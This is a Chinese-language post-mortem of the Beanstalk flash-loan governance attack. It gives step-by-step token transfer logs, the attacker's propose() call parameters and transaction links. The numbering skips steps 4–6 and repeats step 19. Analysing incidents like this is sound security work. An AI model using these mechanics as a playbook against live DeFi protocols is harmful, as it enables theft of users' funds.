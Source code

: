 1.攻击者在通过UniswapV2将73 ETH兑换为212k BEAN。
```
https://etherscan.io/tx/0xfdd9acbc3fae083d572a2b178c8ca74a63915841a8af572a10d0055dbe91d219
From Uniswap V2: Router 2To Uniswap V2: BEAN 3 For 73 ($194,631.87)Wrapped Ethe... (WETH)
From Uniswap V2: BEAN 3To Beanstalk Flashloan Exploiter For 212,858.495697 ($12,916.58)Bean (BEAN)
```


https://etherscan.io/tx/0xcd314668aaa9bbfebaf1a0bd2b6553d01dd58899c508d4729fa7311dc5d33ad7

- 2.通过闪电贷从Aave平台借入350M DAI，500M USDC以及150M USDT，从Uniswap平台借贷32.1M BEAN，从SushiSwap平台借入11.6M LUSD
```
From Aave: aDAI Token V2To BeanstalkFlashloanContract For 350,000,000 ($350,350,000.00)Dai Stableco... (DAI)
From Aave: aUSDC Token V2To BeanstalkFlashloanContract For 500,000,000 ($499,924,500.00)USD Coin (USDC)
From Aave: aUSDT Token V2To BeanstalkFlashloanContract For 150,000,000 ($150,150,000.00)Tether USD (USDT)
From Uniswap V2: BEAN 3 To BeanstalkFlashloanContract For 32,100,950.626687 ($4,252,333.27)Bean (BEAN)
From SushiSwap: LUSD-OHMTo BeanstalkFlashloanContract For 11,643,065.703498478902362927 ($11,641,596.71)LUSD Stablec... (LUSD)
```

- 3.将借入的DAI、USDC以及USDT全部投入到Curve DAI/USDC/USDT流动性矿池中，铸造出979,691,328个流动性代币3Crv。
```
From BeanstalkFlashloanContract To Curve.fi: DAI/USDC/USDT Pool For 350,000,000 ($350,350,000.00)Dai Stableco... (DAI)
From BeanstalkFlashloanContract To Curve.fi: DAI/USDC/USDT Pool For 500,000,000 ($499,924,500.00)USD Coin (USDC)
From BeanstalkFlashloanContract To Curve.fi: DAI/USDC/USDT Pool For 150,000,000 ($150,150,000.00)Tether USD (USDT)
From Null Address: 0x000…000 To BeanstalkFlashloanContract For 979,691,328.662155074401448409 Curve.fi DAI... (3Crv)
```


- 7.将15M 3Crv兑换成15,251,318 LUSD
```
From BeanstalkFlashloanContract To 0xed279fdd11ca84beef15af5d39bb4d4bee23f0ca(Vyper_contract) For 15,000,000 Curve.fi DAI... (3Crv)
From 0xed279fdd11ca84beef15af5d39bb4d4bee23f0ca(Vyper_contract) To BeanstalkFlashloanContract For 15,251,318.11920324226629485 ($15,249,393.88)LUSD Stablec... (LUSD)
```



- 8.将964,691,328 3Crv添加流动性获得795,425,740 BEAN3CRV-f

```
From BeanstalkFlashloanContract To Beanstalk: BEAN3CRV-f Token For 964,691,328.662155074401448409 Curve.fi DAI... (3Crv)
From Null Address: 0x000…000To BeanstalkFlashloanContract For 795,425,740.813818200295323741 Curve.fi Fac... (BEAN3C...)
```



- 9.将32,100,950 BEAN以及26,894,383 LUSD添加流动性，获取58,924,887BEANLUSD-f
```
From BeanstalkFlashloanContract To Beanstalk: BEANLUSD-f Token For 32,100,950.626687 ($4,252,333.27)Bean (BEAN)
From BeanstalkFlashloanContract To Beanstalk: BEANLUSD-f Token For 26,894,383.822701721168657777 ($26,890,990.59)LUSD Stablec... (LUSD)
From Null Address: 0x000…000To BeanstalkFlashloanContract For 58,924,887.872471876761750555 Curve.fi Fac... (BEANLU...)
```



- 10.使用上面得到的所有BEAN3CRV-f,BEANLUSD-f提案进行投票，使提案通过并执行。
```
From BeanstalkFlashloanContract To Beanstalk: Beanstalk Protocol For 795,425,740.813818200295323741 Curve.fi Fac... (BEAN3C...)
From BeanstalkFlashloanContract To Beanstalk: Beanstalk Protocol For 58,924,887.872471876761750555 Curve.fi Fac... (BEANLU...)
```

11.调用BIP18


- 12.然后获得了36,084,584 BEAN，0.5407 UNI-V2，874,663,982 BEAN3CRV-f以及60,562,844 BEANLUSD-f
```
From Beanstalk: Beanstalk Protocol To BeanstalkFlashloanContract For 36,084,584.376516 ($4,780,035.34)Bean (BEAN)
From Beanstalk: Beanstalk Protocol To BeanstalkFlashloanContract For 0.540716100968756904 ($69,497,439.24)Uniswap V2 (UNI-V2)
From Beanstalk: Beanstalk Protocol To BeanstalkFlashloanContract For 874,663,982.237419391168556425 Curve.fi Fac... (BEAN3C...)
From Beanstalk: Beanstalk Protocol To BeanstalkFlashloanContract For 60,562,844.064129085666723423 Curve.fi Fac... (BEANLU...)
From Null Address: 0x000…000To BeanstalkFlashloanContract For 100 ($13.25)Bean (BEAN)
```


- 13,删除 874，663，982 CRV 单一流动性，以获得 1，007，734，729 CRV 代币
```
From BeanstalkFlashloanContract To Null Address: 0x000…000 For 874,663,982.237419391168556425 Curve.fi Fac... (BEAN3C...)
From Beanstalk: BEAN3CRV-f TokenTo BeanstalkFlashloanContract For 1,007,734,729.918865110952432204 Curve.fi DAI... (3Crv)
```

- 14.删除 60562844 BEANLUSD-f 单一流动性，以获得 28149504 LUSD
```
From BeanstalkFlashloanContract To Null Address: 0x000…000 For 60,562,844.064129085666723423 Curve.fi Fac... (BEANLU...)
From Beanstalk: BEANLUSD-f TokenTo BeanstalkFlashloanContract For 28,149,504.988150028822680438 ($28,145,953.39)LUSD Stablec... (LUSD)
```


- 15.归还SushiSwap闪电贷的11,678,100 LUSD
```
From BeanstalkFlashloanContract To SushiSwap: LUSD-OHM For 11,678,100.003509005920123297 ($11,676,626.59)LUSD Stablec... (LUSD)
```

- 16.将 32197543 BEAN 的闪存返回到 Uniswap V2  包含手续费
```
From BeanstalkFlashloanContract To Uniswap V2: BEAN 3 For 32,197,543.256457 ($4,265,128.65)Bean (BEAN)
```

- 17.将剩余的16,471,404 LUSD兑换成16,184,690 3Crv。
```
From BeanstalkFlashloanContract To 0xed279fdd11ca84beef15af5d39bb4d4bee23f0ca(Vyper_contract) For 16,471,404.984641022902557141 ($16,469,326.80)LUSD Stablec... (LUSD)
From 0xed279fdd11ca84beef15af5d39bb4d4bee23f0ca(Vyper_contract)To BeanstalkFlashloanContract For 16,184,690.4423706616519972 Curve.fi DAI... (3Crv)
```


- 18.移除511,959,710.180617886302214702 3Crv流动性，得到522,487,380 USDC，365,758,059 DAI以及156,732,232 USDT。
```
From BeanstalkFlashloanContract To Null Address: 0x000…000 For 511,959,710.180617886302214702 Curve.fi DAI... (3Crv)
From Curve.fi: DAI/USDC/USDT PoolTo BeanstalkFlashloanContract For 522,487,380.233548 ($522,408,484.64)USD Coin (USDC)
From BeanstalkFlashloanContract To Null Address: 0x000…000 For 358,371,797.126432520411550291 Curve.fi DAI... (3Crv)
From Curve.fi: DAI/USDC/USDT PoolTo BeanstalkFlashloanContract For 365,758,059.846650868575584745 ($366,123,817.91)Dai Stableco... (DAI)
From BeanstalkFlashloanContract To Null Address: 0x000…000 For 153,587,913.054185365890664411 Curve.fi DAI... (3Crv)
```


- 19.向Aave平台分别存入350,315,000 DAI，500,450,000 USDC以及150,135,000 USDT用于偿还闪电贷以及手续费。
```
From Curve.fi: DAI/USDC/USDT PoolTo BeanstalkFlashloanContract For 156,732,232.49236 ($156,888,964.72)Tether USD (USDT)
From Null Address: 0x000…000To Aave: Aave Collector V2 For 192.544598265969491594 ($193.12)Aave interes... (aDAI)
From BeanstalkFlashloanContract To Aave: aDAI Token V2 For 350,315,000 ($350,665,315.00)Dai Stableco... (DAI)
From Null Address: 0x000…000To Aave: Aave Collector V2 For 30.364909 ($30.36)Aave interes... (aUSDC)
From BeanstalkFlashloanContract To Aave: aUSDC Token V2 For 500,450,000 ($500,374,432.05)USD Coin (USDC)
From Null Address: 0x000…000To Aave: Aave Collector V2 For 89.259866 ($89.35)Aave interes... (aUSDT)
From BeanstalkFlashloanContract To Aave: aUSDT Token V2 For 150,135,000 ($150,285,135.00)Tether USD (USDT)
```


- 20.移除0.5407 UNI-V2的流动性，获得10,883 WETH以及32,511,085 BEAN并归还闪电贷的金额以及手续费。
```
From BeanstalkFlashloanContract To Uniswap V2: BEAN 3 For 0.540716100968756904 ($69,497,439.24)Uniswap V2 (UNI-V2)
From Uniswap V2: BEAN 3 To Null Address: 0x000…000 For 0.540716100968756904 ($69,497,439.24)Uniswap V2 (UNI-V2)
From Uniswap V2: BEAN 3 To BeanstalkFlashloanContract For 10,883.105341079068109889 ($32,261,659.81)Wrapped Ethe... (WETH)
From Uniswap V2: BEAN 3 To BeanstalkFlashloanContract For 32,511,085.804104 ($4,306,662.86)Bean (BEAN)
```


- 21.向Ukraine Crypto Donation捐赠了250k USDC
```
From BeanstalkFlashloanContract To Ukraine Crypto Donation For 250,000 ($249,962.25)USD Coin (USDC)
```


- 19.将剩余的Token兑换成WETH
```
From Uniswap V3: DAI-USDC 4 To BeanstalkFlashloanContract For 15,441,256.987216 ($15,438,925.36)USD Coin (USDC)
From BeanstalkFlashloanContract To Uniswap V3: DAI-USDC 4 For 15,443,059.846650868575584745 ($15,458,502.91)Dai Stableco... (DAI)
From Uniswap V3: USDC 3 To BeanstalkFlashloanContract For 11,822.158690514861161013 ($35,045,370.78)Wrapped Ethe... (WETH)
From BeanstalkFlashloanContract To Uniswap V3: USDC 3 For 37,228,637.220764 ($37,223,015.70)USD Coin (USDC)
From Uniswap V3: USDTTo BeanstalkFlashloanContract For 2,124.852878868396961413 ($6,298,871.38)Wrapped Ethe... (WETH)
From BeanstalkFlashloanContract To Uniswap V3: USDT For 6,597,232.49236 ($6,603,829.72)Tether USD (USDT)
```



## 黑客交易漏洞利用
https://dashboard.tenderly.co/tx/mainnet/0x68cdec0ac76454c3b0f7af0b8a3895db00adf6daaf3b50a99716858c4fa54c6f


黑客调用
```
function propose(
        IDiamondCut.FacetCut[] calldata _diamondCut,
        address _init,
        bytes calldata _calldata,
        uint8 _pauseOrUnpause
    )
```
传入参数如下
```
{
  "_diamondCut": [],
  "_init": "0xe5ecf73603d98a0128f05ed30506ac7a663dbb69",
  "_calldata": "0xe1c7392a",
  "_pauseOrUnpause": 3
}
```


最后创建了一个18号提案
```
uint32 bipId = createBip(
    _diamondCut,
    _init,
    _calldata,
    _pauseOrUnpause,
    C.getGovernancePeriod(),
    msg.sender
);
```
参数如下
```
{
  "_diamondCut": [],
  "_init": "0xe5ecf73603d98a0128f05ed30506ac7a663dbb69",
  "_calldata": "0xe1c7392a",
  "pauseOrUnpause": 3,
  "period": 168,
  "account": "0x1c5dcdd006ea78a7e4783f9e6021c32935a10fb4"
}
```

## flash loan
https://dashboard.tenderly.co/tx/mainnet/0xcd314668aaa9bbfebaf1a0bd2b6553d01dd58899c508d4729fa7311dc5d33ad7